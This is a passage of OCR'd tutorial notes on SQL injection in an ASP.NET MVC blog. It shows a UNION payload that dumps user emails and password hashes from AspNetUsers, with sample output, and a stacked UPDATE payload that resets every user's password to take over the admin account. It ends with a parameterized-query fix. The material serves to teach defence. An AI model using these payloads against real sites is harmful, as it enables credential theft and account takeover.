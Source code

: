 - This returns the version of the SQL Sever used to the hacker
- With the information that we are using Microsoft SQL Server and [ASP.Net](http://ASP.Net) they can tell it uses MVC structure, and try to do the following

```csharp
'union select '1',id+':'+email+':'+passwordhash,Id as UserId from AspNetUsers; --
```

- It returns the following data

```csharp
User                       Post
roberthurlbut@test.com     7222a1664-a737-458a-aaee-c379b51e8b4c : roberthulbut@test.com
                           AM8ORa2EQ5bILLrS0sjPW5IJ2vSrdQaHzLs9UCcrIQ6b46z93Xr8rag6B8qthrcXA==

roberthurlbut@test.com     7222a1664-a737-458a-aaee-c379b51e8b4c : roberthulbut@test.com
                           AM8ORa2EQ5bILLrS0sjPW5IJ2vSrdQaHzLs9UCcrIQ6b46z93Xr8rag6B8qthrcXA==

roberthurlbut@test.com     Google

roberthurlbut@test.com     This is a test

admin@test.com             Hello world!
```

```csharp
';update AspNetUsers set PasswordHash="AM8ORa2EQ5bILLrS0sjPW5IJ2vSrdQaHzLs9UCcrIQ6b46z93Xr8rag6B8qthrcXA==",--
```

- This will update passwords of all the users in the table
- Since blog tells me the email of other users
- Now I can login as admin using my password and change their blog
- Which after I have done will be like

```csharp
UserName                   Post

roberthurlbut@test.com     Google

roberthurlbut@test.com     This is a test

admin@test.com             Hello world! I have taken over
```

- These are some of the examples that can happen with one sql injection problem in the website

```csharp
#region Better - Use Parameters
sql = "SELECT * FROM dbo/BlogPosts WHERE Post LIKE @p";
List<object> parameters = new List<object>();
parameters.Add(new SqlParameter("p", searchString));
var blogPosts = db.BlogPosts.SqlQuery(sql, parameters.ToArray());
#endregion Better - Use Parameters
```

- Now the data written by user in input box will ********************************not go in as an executable query******************************** but rather as a string which will be compared within the post and return any results that match

